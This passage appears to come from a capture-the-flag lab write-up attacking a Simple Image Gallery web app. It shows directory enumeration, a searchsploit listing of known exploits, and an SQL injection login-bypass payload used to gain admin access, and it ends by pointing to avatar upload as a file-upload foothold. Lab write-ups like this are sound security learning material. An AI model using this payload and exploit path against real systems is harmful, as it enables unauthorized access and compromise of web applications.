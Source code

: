 ```
/gallery              (Status: 301) [Size: 316] [--> http://10.10.82.219/gallery/]
/server-status        (Status: 403) [Size: 278]
```

looking for exploits using searchsploit

```
searchsploit simple image gallery
```

```
--------------------------------------------- ---------------------------------
 Exploit Title                               |  Path
--------------------------------------------- ---------------------------------
Joomla Plugin Simple Image Gallery Extended  | php/webapps/49064.txt
Joomla! Component Kubik-Rubik Simple Image G | php/webapps/44104.txt
Simple Image Gallery 1.0 - Remote Code Execu | php/webapps/50214.py
Simple Image Gallery System 1.0 - 'id' SQL I | php/webapps/50198.txt
--------------------------------------------- ---------------------------------
Shellcodes: No Results
```
# Exploitation

### Exploit-DB 50214

https://www.exploit-db.com/exploits/50214

the payload is an SQL injection, resulting in a login

the password is left blank, the username is set to something that is true

```py
username": "admin' or '1'='1'#", "password": ""
```

http://10.10.82.219/gallery/

we will login with the following credentials (no password)

```
admin' or '1'='1'#

```

![[suclogin.png]]

we navigate to the account section for the admin

![[admin_acc.png]]

http://10.10.82.219/gallery/?page=user

from here, we can upload file by using the change avatar function of the admin

![[admin_info.png]]
